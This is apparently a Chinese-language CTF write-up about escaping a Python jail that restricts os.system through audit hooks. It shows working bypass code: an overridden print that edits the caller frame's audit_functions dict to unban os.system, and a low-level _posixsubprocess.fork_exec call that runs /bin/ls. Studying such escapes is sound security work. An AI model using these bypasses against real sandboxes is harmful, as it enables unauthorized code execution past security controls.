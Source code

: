 这种 pyjail 要 rce 查了查有好多种方法

```python
DEBUG = True
import os, sys
origin_print = print
def print(*args):
    # original_print(sys._getframe(1).f_locals)
    t = sys._getframe(1).f_locals['audit_functions']
    t['os.system']['ban'] = False
    # origin_print(t)
    return origin_print(*args)

os.system('ls')
```

第一次见，长见识了，先把原生 `print` 保存为 `origin_print` ，然后重写 `print`

访问调用栈上一级函数的局部变量，这里调用的是 `os.system` 的局部变量

1 是上一级帧，0 是当前帧，依此类推

```python
t = sys._getframe(1).f_locals
# {'event': 'os.system', 'args': (b'ls',), 'audit_functions': {'os.system': {'ban': False}, ... }}
```

修改 audit_functions 字典，/pardon `os.system` （什么方块人）

然后继续执行 `print(*args)` ，这样就实现了 rce

或者

可以用 `_posixsubprocess.fork_exec` 

> `posixsubprocess` 是内部模块，核心功能是 `fork_exec` 函数，提供了一个非常底层的方式创建子进程，并在子进程中执行指定程序

```python
import os
import _posixsubprocess

cmd = b"/bin/ls"
param = "."
_posixsubprocess.fork_exec([cmd, param], [cmd], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False,False, None, None, None, -1, None, False)
```

网上搜来的，一堆参数一眼看不明白，查查源码，每个版本之间可能有差异

```python
# _posixsubprocess.py
def fork_exec(*args, **kwargs): # real signature unknown
    """
    Spawn a fresh new child process.
    
    Fork a child process, close parent file descriptors as appropriate in the
    child and duplicate the few that are needed before calling exec() in the
    child process.
    
    If close_fds is True, close file descriptors 3 and higher, except those listed
    in the sorted tuple pass_fds.
    
    The preexec_fn, if supplied, will be called immediately before closing file
    descriptors and exec.
    
    WARNING: preexec_fn is NOT SAFE if your application uses threads.
             It may trigger infrequent, difficult to debug deadlocks.
    
    If an error occurs in the child process before the exec, it is
    serialized and written to the errpipe_write fd per subprocess.py.
    
```